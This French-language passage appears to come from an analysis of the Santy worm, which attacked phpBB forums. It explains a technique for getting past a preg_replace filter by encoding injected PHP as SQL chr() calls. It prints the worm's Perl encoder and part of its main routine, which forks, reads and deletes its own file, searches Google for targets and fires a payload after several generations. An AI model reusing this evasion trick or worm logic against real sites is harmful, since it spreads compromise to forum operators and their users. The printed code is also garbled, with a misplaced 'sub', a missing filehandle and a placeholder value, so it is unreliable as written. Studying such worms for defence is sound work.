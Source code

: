 Mais là encore nous rencontrons un nouveau problème : le résultat est passé à `preg_replace` qui va filtrer ce qui suit notre première apostrophe rendant l'exploitation plus difficile. L'astuce a été trouvée par une autre personne : il suffit d'utiliser une fonction propre à SQL qui permet de passer les caractères sous leur forme décimale. Cette fonction est la fonction `chr()` qui renvoi le caractère ascii pour une valeur décimale passée en argument. Par exemple `chr(65)` renverra le caractère A.  

Finalement les caractères qui seront passés seront évalués, c'est-à-dire qu'ils seront exécutés comme s'il s'agissait de code php.  

### La fonction str2chrsub

```pl
str2chr($)
{ 
  my $s = shift; 

  $s =~ s/(.)/'chr(' . ord($1) . ')%252e'/seg; 
  $s =~ s/%252e$//; 

  return $s; 
}
```

Cette fonction réalise l'encodage décrit plus haut. Par exemple la chaine de caractères ABC sera traduite en `chr(65)%252echr(66)%252echr(67)` où `%252e` correspond au caractère `.` (point) qui sert à accrocher les caractères les uns aux autres.

## Le corps de Santy (main)

```pl
eval{ fork and exit; }; 

my $generation = x; 
PayLoad() if $generation > 3; 

open IN, $0 or exit; 
my $self = join '', ; 
close IN; 
unlink $0; 

while(!GrabURL('http://www.google.com/advanced\_search'))
{ 
 if($generation > 3) 
 { 
 PayLoad() ; 
 } else { 
 exit; 
 } 
}
...
```
